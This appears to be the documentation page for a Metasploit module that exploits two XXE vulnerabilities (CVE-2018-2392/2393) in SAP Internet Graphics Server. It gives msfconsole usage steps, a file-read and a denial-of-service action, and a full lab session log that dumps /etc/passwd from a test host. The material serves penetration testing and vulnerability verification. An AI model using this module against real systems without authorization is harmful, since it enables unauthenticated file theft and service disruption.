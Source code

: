 ## Vulnerable Application
This module exploits CVE-2018-2392 and CVE-2018-2393, two XXE vulnerabilities within the XMLCHART page
of SAP Internet Graphics Servers (IGS) running versions 7.20, 7.20EXT, 7.45, 7.49, or 7.53. These
vulnerabilities occur due to a lack of appropriate validation on the Extension HTML tag when
submitting a POST request to the XMLCHART page to generate a new chart.

Successful exploitation will allow unauthenticated remote attackers to read files from the server as the user
from which the IGS service is started, which will typically be the SAP admin user. Alternatively attackers
can also abuse the XXE vulnerability to conduct a denial of service attack against the vulnerable
SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) where it provides a way infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where it provides a way for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Installation Steps
Steps to install and update the SAP IGS server can be found online on [this page][2].
Additional information on configuring the IGS server can be found [here][3].
Finally information on administering the IGS server can be found [here][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Verify that the `check` method correctly identifies if the target is vulnerable or not.
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### URIPATH

This is the path to the XMLCHART page of the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 172.16.30.29
RHOSTS => 172.16.30.29
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          no        File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.30.29         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   URIPATH  /XMLCHART            yes       Path to the SAP IGS XMLCHART page from the web root
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check
[+] 172.16.30.29:40080 - The target is vulnerable. 172.16.30.29 running OS: SUSE Linux Enterprise Server for SAP Applications 12 SP1 returned a response indicating that its XMLCHART page is vulnerable to XXE!
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 172.16.30.29

[+] File: /etc/passwd content from host: 172.16.30.29
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:107:112:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
haldaemon:x:101:102:User for haldaemon:/var/run/hald:/bin/false
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
messagebus:x:100:101:User for D-Bus:/var/run/dbus:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
ntp:x:74:108:NTP daemon:/var/lib/ntp:/bin/false
polkituser:x:104:107:PolicyKit:/var/run/PolicyKit:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
pulse:x:105:109:PulseAudio daemon:/var/lib/pulseaudio:/bin/false
puppet:x:103:106:Puppet daemon:/var/lib/puppet:/bin/false
root:x:0:0:root:/root:/bin/bash
sshd:x:71:65:SSH daemon:/var/lib/sshd:/bin/false
suse-ncc:x:106:111:Novell Customer Center User:/var/lib/YaST2/suse-ncc-fakehome:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
uuidd:x:102:104:User for uuidd:/var/run/uuidd:/bin/false
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
admin:x:1000:100:admin:/home/admin:/bin/bash
j45adm:x:1001:1001:SAP System Administrator:/home/j45adm:/bin/csh
sybj45:x:1002:1001:SAP Database Administrator:/sybase/J45:/bin/csh
sapadm:x:1003:1001:SAP System Administrator:/home/sapadm:/bin/false
[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.29  40080  tcp    http  open   SAP Internet Graphics Server (IGS)

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                             References
---------                ----          ----                                             ----------
2020-10-07 10:12:37 UTC  172.16.30.29  SAP Internet Graphics Server (IGS) XMLCHART XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host          service  type              name         content     info                  path
----          -------  ----              ----         -------     ----                  ----
172.16.30.29           igs.xmlchart.xxe  /etc/passwd  text/plain  SAP IGS XMLCHART XXE  /Users/vladimir/.msf4/loot/01619fd331da98b5ac4d-20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
